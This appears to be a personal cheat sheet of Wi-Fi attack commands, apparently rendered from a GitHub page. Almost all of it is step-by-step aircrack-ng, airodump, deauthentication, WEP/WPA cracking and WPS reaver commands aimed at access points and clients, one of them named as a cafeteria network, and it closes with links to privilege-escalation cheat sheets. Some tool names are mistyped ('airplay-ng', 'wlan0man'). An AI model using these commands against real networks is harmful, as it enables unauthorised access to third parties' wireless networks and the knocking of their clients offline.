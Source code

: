 airmon-ng start wlan0 : this will enable the monitor mode and change the name by wlan0mon

airodump-ng wlan0mon : all ap will be shown of locality
airodump-ng --bssid 5A:73:51:12:BB:2E -c 11 : capture of a specific ap packets
airodump-ng --bssid 5A:73:51:12:BB:2E -c 11 -w ~/packets/cafeteriawifi_ pcap_file : output the packet file
airodump-ng --bssid 5A:73:51:12:BB:2E -c 6 : hidden network info

we will see the client bssid that connects with this ap
then we have to do a deauthentication attack to inject packet as a spoofed client

airplay-ng -a 00:21:52:1d:2d:13 -c E8:B1:FC:97:C2:82(client bssid) --deauth 20 wlan0 :it will inject fake packet to network for handshake which will reveal the ssid(ap name)

airodump-ng --encrypt=WEP wlan0mon : filtering only wep network
airodump-ng --bssid 5A:73:51:12:BB:2E -c 1 -w wepdump

aircrack-ng wepdump.pcap : this will crack the password for wep network as maximum would be found as clear text

airplay-ng -a 00:21:52:1d:2d:13 -h E8:B1:FC:97:C2:82 --deauth 50 wlan0 : for wpa 
aircrack-ng -w /usr/share/wordlist/rockyou.txt wepdump.pcap : password bruteforcing for wpa/wpa2

for wps-enabled networks 
------------------------

once monitor mode enabled

wash -i wlan0
reaver -i wlan0man --bssid 58:56:33:B0:77:AA(target mac address)


****************airodump session should not be cancelled until a message is shown wpa handshake******

-------------------------------------------infos----------------------------------------------------

privesc: https://0xsp.com/offensive/privilege-escalation-cheatsheet/
cheatsheets: https://github.com/rmusser01/Infosec_Reference/tree/master/Draft/Cheat%20sheets%20reference%20pages%20Checklists%20-
